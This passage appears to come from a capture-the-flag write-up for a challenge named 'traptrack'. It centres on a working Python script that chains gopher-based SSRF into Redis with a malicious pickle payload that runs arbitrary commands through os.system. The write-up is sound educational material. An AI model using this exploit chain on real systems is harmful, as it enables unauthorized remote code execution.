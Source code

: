 ```python
    
    return res

def generate_gopher(payload):
    
    final_payload = "gopher://127.0.0.1:6379/_{}".format(urllib.parse.quote(payload))
    return final_payload

class PickleExploit(object):
    def __init__(self, command):
        self.cmd = command

    def __reduce__(self):
        cmd = command
        return (os.system, (cmd,))

def pickle_payload(key, field, command):
    res = ""

    payload = pickle.dumps(PickleExploit(command))
    res += "\r\n"
    res += generate_resp("hset {} {} {}".format(key, field, base64.b64encode(payload).decode()))

    res = res.replace("\n", "\r\n")

    print(generate_gopher(res))

if sys.argv[1] == "pickle":
    key = input("Key name > ")
    field = input("Field name > ")
    command = input("Command > ")
    pickle_payload(key, field, command)
```

This pickle serialized thing works fine on Unix platform. It should also works fine on Windows platform usually, however if you experience any errors on your Windows machine, try to use WSL (Window Subsystem Linux), install Linux on a Virtual Machine or buy a MacBook. 💸💸💸

With that script let's try to finalize our work. We will try to change `hvalue` of `jobs` from `hfield` of 100 (which is the first key:value pair of `jobs`). Why `jobs` ? Because it is the hash key that stores the jobs which contain the serialized object. Why change it ? So we can inject a evil-crafted serialized object of our own so when it is loaded, the command we want to run will be executed.

Overall the technique to solve this challenge is not too flashy, it still requires a lot of knowledge around it. Very nice chall. Hope we all learn something from it.

<img src="traptrack6.png" alt="creds" width="1000"/>

